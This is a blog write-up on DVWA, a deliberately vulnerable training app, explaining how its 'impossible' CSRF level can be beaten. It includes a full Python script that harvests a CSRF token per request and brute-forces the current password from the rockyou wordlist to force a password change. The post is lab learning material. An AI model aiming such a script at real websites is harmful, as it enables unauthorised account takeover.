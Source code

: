 +++
date = '2025-10-11T20:05:17+07:00'
title = 'Exploting IMPOSSIBLE Security Level CSRF - DVWA'
tags = ['DVWA']
description = 'A step-by-step guide on how I exploit the IMPOSSIBLE security level of CSRF vulnerability in DVWA (Damn Vulnerable Web App).'
draft = false

[cover]
  image = '/images/posts/dvwa-cover.webp'
  alt = 'DVWA Cover'
  caption = 'DVWA Cover'
  relative = false
+++

## DVWA's CSRF Challenge

This challenge works around a password reset form, enabling admin to change their password. The first three levels can be exploited with these solutions:

-   **LOW Security Level**: we just need a URL with correct params setup, from that URL make a GET request and we can change the password.
-   **MEDIUM Security Level**: this level adds a check of `Referer` header, since it should be the same as where the request originated from, a simple `curl` command may exploit this level.
-   **HIGH Security Level**: this is where the game plays, it needs a CSRF token for every request to change the password. This is not so hard to exploit - a Python script can exploit it.

For more information: [https://github.com/jameskaois/dvwa-vulnerabilities/tree/main/csrf](https://github.com/jameskaois/dvwa-vulnerabilities/tree/main/csrf)

## Cracking IMPOSSIBLE Security Level CSRF

This level seems to impossible to exploit. However, there is a vulnerability: this level requires a new value which is `password_current` in order to check if the user know the current password before changing the new one.

The source code:

```php
// Sanitise current password input
$pass_curr = stripslashes( $pass_curr );
$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
$pass_curr = md5( $pass_curr );

// Check that the current password is correct
$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
$current_user = dvwaCurrentUser();
$data->bindParam( ':user', $current_user, PDO::PARAM_STR );
$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
$data->execute();

// Do both new passwords match and does the current password match the user?
if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
    // ...
}
```

This seems to be secure however unlike the IMPOSSIBLE level of brute-force it will have several checks and also limit the errors. Therefore, in that IMPOSSIBLE brute-force it is kinda hard to brute-force the password. However, this IMPOSSIBLE level in CSRF doesn't check like that.

=> We can brute-force the current password then change new one (even though we doesn't know the current password).

My created Python exploit code:

```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESSS_ID>",
    "security": "impossible"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)

            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword():
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    try:
        with open('/usr/share/wordlists/rockyou.txt') as file:
            for line in file:
                password = line.rstrip()

                user_token = getCSRFToken()

                if not user_token:
                    print('Failed to fetch token')
                    continue


                url = baseUrl + f"?password_current={password}&password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

                try:
                    print(f'Attempting {password}')
                    res = requests.get(url, cookies=cookies, headers=headers)

                    if "Password Changed" in res.text:
                        print()
                        print(f'Found current password: {password}')
                        print('Successfully change password')
                        exit()
                except requests.exceptions.RequestException as e:
                    print("Request error:", e)
    except FileNotFoundError as e:
        print("File not found:", e)

changePassword()
```

In the code I use `rockyou.txt` passwords list, you can change to whatever you want.

The result:
![Guide image](/images/posts/impossible-security-level-csrf-dvwa-1.png)
